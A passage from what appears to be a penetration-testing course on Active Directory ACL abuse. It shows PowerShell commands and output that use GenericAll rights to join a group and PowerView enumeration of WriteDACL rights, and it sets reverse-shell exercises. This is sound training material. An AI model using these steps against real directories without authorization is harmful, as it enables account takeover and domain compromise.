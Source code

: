 > Listing 10 - Enumerating group access rights

Listing 10 shows that we have GenericAll access rights on the _TestGroup_ group. Since GenericAll gives us full access to the group, we can compromise the group by simply adding ourselves to it.

```
PS C:\tools> net group testgroup offsec /add /domain
The request will be processed at a domain controller for domain prod.corp1.com.

The command completed successfully.
```

> Listing 11 - Adding the user offsec to TestGroups

As with user accounts, we can also use the _AllExtendedRights_ and _GenericWrite_ access rights in a similar way.

GenericAll is an extremely powerful access right that can lead to very straightforward compromise. In the next section, we'll cover another access right that we can leverage for compromise.

**Exercises**

1. Enumerate domain users and search for associated GenericAll permissions.
2. Leverage the access right to take over the _TestService1_ account and obtain code execution in the context of that user through a reverse shell.
3. Enumerate domain groups and leverage GenericAll permissions to obtain group membership.

#### 19.1.3. Abusing WriteDACL

As previously stated, all Active Directory objects have a DACL and one object access right in particular (_WriteDACL_) grants permission to modify the DACL itself. In this section, we'll leverage this to compromise an account.

Before we start the attack, we'll enumerate misconfigured user accounts with Get-DomainUser and Get-ObjectAcl.

```
PS C:\tools> Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

...

AceType               : AccessAllowed
ObjectDN              : CN=TestService2,OU=prodUsers,DC=prod,DC=corp1,DC=com
ActiveDirectoryRights : ReadProperty, GenericExecute, WriteDacl
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3776646582-2086779273-4091361643-1608
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3776646582-2086779273-4091361643-1111
AccessMask            : 393236
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
Identity              : PROD\offsec
...
```

